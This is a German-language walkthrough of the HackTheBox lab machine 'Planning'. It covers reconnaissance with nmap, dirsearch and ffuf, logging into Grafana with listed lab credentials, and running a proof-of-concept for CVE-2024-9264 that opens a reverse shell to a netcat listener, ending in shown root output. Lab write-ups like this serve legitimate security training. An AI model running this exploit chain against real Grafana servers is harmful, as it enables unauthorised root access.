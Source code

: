 
# 🛠️ HTB Planning – Cheatsheet (deutsch)

## 🧭 Übersicht
Dieser Beitrag beschreibt die Schritte zur Kompromittierung der HTB-Maschine „Planning“ mithilfe von Nmap, Dirsearch, FFUF und der Ausnutzung einer bekannten Grafana-Schwachstelle (CVE-2024-9264).

---

## 1. 🔍 Initiale Erkundung

### Nmap-Scan:
```bash
nmap -sC -sV 10.10.11.68
```

**Ergebnisse:**
- **Port 22**: SSH (OpenSSH 9.6p1)
- **Port 80**: HTTP (nginx 1.24.0)

### Hosts-Datei anpassen:
```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

---

## 2. 📂 Verzeichnis- und Subdomain-Erkennung

### Dirsearch verwenden:
```bash
python3 dirsearch.py -u http://planning.htb
```

**Gefundene Pfade:**
- /about.php
- /contact.php
- /index.php
- /css/
- /img/
- /js/
- /lib/

### Subdomains mit FFUF entdecken:
```bash
ffuf -w /pfad/zur/wordlist.txt -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -fs 178
```

**Ergebnis:**
- **grafana.planning.htb** (Status: 302)

### Hosts-Datei erneut anpassen:
```bash
echo "10.10.11.68 grafana.planning.htb" | sudo tee -a /etc/hosts
```

---

## 3. 🔓 Zugriff auf Grafana

**Anmeldedaten:**
- Benutzername: `admin`
- Passwort: `0D5oT70Fq13EvB5r`

**Grafana-Version:** v11

**Bekannte Schwachstelle:** CVE-2024-9264

---

## 4. 🎯 Exploit durchführen

**Voraussetzung:** Stelle sicher, dass du einen Listener auf deinem lokalen System eingerichtet hast:
```bash
nc -lvnp <dein_port>
```

**Exploit ausführen:**
```bash
sudo python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip <deine_ip> --reverse-port <dein_port>
```

**Hinweis:** Auf macOS ist `sudo` erforderlich, um den Exploit erfolgreich auszuführen.

---

## 5. 🐚 Root-Zugriff erlangen

**Erwartete Ausgabe nach erfolgreichem Exploit:**
```bash
Connection from 10.10.11.68:33462
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

**Beispielhafte Umgebung:**
```bash
# env
GF_PATHS_HOME=/usr/share/grafana
GF_PATHS_LOGS=/var/log/grafana
GF_PATHS_PROVISIONING=...
```

---

## 📝 Zusammenfassung

- **Werkzeuge verwendet:** Nmap, Dirsearch, FFUF, Python-Exploit
- **Ziel:** Kompromittierung der HTB-Maschine „Planning“ über eine bekannte Grafana-Schwachstelle
- **Ergebnis:** Erfolgreicher Root-Zugriff auf das Zielsystem
